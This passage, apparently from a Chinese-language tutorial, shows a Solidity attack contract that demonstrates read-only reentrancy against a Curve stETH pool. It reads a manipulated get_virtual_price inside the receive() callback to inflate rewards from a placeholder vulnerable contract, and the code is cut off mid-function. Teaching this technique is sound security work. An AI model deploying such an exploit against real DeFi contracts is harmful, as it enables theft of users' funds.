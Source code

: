 最终的攻击合约如下：

```solidity
contract ExploitContract {
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    VulnContract private immutable target;

    constructor(address _target) {
        target = VulnContract(_target);
    }

    // Stake LP into VulnContract
    function stakeTokens() external payable {
        uint[2] memory amounts = [msg.value, 0];
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );

        lpToken.approve(address(target), lp);
        target.stake(lp);
    }

    // Perform Read-Only Reentrancy
    function performReadOnlyReentrnacy() external payable {
        // Add liquidity to Curve
        uint[2] memory amounts = [msg.value, 0];
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log get_virtual_price
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // Remove liquidity from Curve
        // remove_liquidity() invokes the recieve() callback
        uint[2] memory min_amounts = [uint(0), uint(0)];
        pool.remove_liquidity(lp, min_amounts);
        // Log get_virtual_price
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );

        // Attack - Log reward amount
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    receive() external payable {
        // receive() is called when the remove_liquidity is called
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // Attack - Log reward amount
        uint reward = target.getReward();
```
